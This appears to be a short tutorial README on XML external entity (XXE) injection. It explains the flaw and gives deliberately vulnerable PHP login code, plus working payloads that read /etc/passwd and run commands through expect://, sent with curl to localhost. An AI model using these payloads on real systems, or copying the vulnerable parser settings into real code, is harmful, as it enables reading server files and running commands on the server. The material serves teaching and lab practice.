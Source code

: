 # XXE-Basics
Basic Overview of XXE

XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access.

Some applications use the XML format to transmit data between the browser and the server. Applications that do this virtually always use a standard library or platform API to process the XML data on the server. XXE vulnerabilities arise because the XML specification contains various potentially dangerous features, and standard parsers support these features even if they are not normally used by the application.

XML (Extensible Markup Language) is a very popular data format. It is used in everything from web services (XML-RPC, SOAP, REST) through documents (XML, HTML, DOCX) to image files (SVG, EXIF data). To interpret XML data, an application needs an XML parser (also known as the XML processor).

The easiest and safest way to prevent against XXE attacks it to completely disable Document Type Definitions (DTDs).

Vulnerable PHP Code 

```
<?php 
    libxml_disable_entity_loader (false);
    $xmlfile = file_get_contents('php://input');
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
    $creds = simplexml_import_dom($dom);
    $user = $creds->user;
    $pass = $creds->pass;
    echo "You have logged in as user $user";
?> 
```

Simple XML Data

```
<creds>
    <user>Ed</user>
    <pass>mypass</pass>
</creds>

```
Send the Request

```
curl -d @xml.txt http://127.0.0.1/xxe.php

```

Expliot XXE to Retrieve /etc/passwd

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>

```
Send the Request

```
curl -d @xml.txt http://127.0.0.1/xxe.php

```
Expliot XXE to gian RCE

Requires the PHP expect module to be enabled

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds

```
curl -d @xml.txt http://127.0.0.1/xxe.php

```



